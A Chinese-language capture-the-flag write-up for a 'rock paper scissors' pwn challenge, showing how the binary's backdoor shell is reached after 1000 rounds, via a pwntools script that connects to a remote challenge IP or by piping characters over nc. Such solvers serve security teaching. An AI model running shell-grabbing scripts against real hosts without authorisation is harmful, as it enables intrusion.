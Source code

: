 # **石头剪刀布：**

拿到可执行文件，拖到IDA里看源码：

首先是一个1000次的for循环

![image-20240520175408557](Pwn/石头剪刀布.assets/image-20240520181243938.png)

我们可以发现当循环1000次执行后，才会执行我们的后门函数：

![image-20240520175547344](Pwn/石头剪刀布.assets/image-20240520175547344.png)

所以现在关键就是如何让这1000次的循环运行完：

到这儿有两种解法：

**第一种**是基于pwntools写一个脚本，接受程序的输出，再向程序输入，主要考察对pwn工具pwntools的使用

脚本如下：（这个脚本是按照石头剪刀布的玩法进行相应的接收和输入，但其实石头剪刀的输赢是没关系的，只要循环1000次就可以了）

```
from pwn import *

p = remote("81.69.243.226", 60579)

# p = process("./rock_paper_scissors")

i = 0

# gdb.attach(p)

for i in range(0,1000):
    p.recvuntil("Computer: \n", drop=True)
    p.recvuntil("->", drop=True)
    str = p.recvline().strip() 
    print(str)
    if str == b'Rock':
        p.recvline(b'You')
        p.sendline("p")
    elif str == b'Scissor':
        p.recvline(b'You')
        p.sendline("r")
    elif str == b'Paper':
        p.recvline(b'You')
        p.sendline("s")
p.interactive()
```

![image-20240520181243938](Pwn/石头剪刀布.assets/image-20240520181243938.png)

这里运行的时间会久一点，毕竟有1000次，可以看到我们不仅成功拿到shell，而且也赢了1000次的石头剪刀布✌

![image-20240520181350975](Pwn/石头剪刀布.assets/image-20240520181350975.png)

**第二种：**就是直接nc连接，直接输入1000个字符，r,s,p都可以：

![image-20240520181542062](Pwn/石头剪刀布.assets/image-20240520181542062.png)

![image-20240520181530551](Pwn/石头剪刀布.assets/image-20240520181530551.png)

尽管输了，但还是拿到shell啦

![image-20240520180907888](Pwn/石头剪刀布.assets/image-20240520180907888.png)

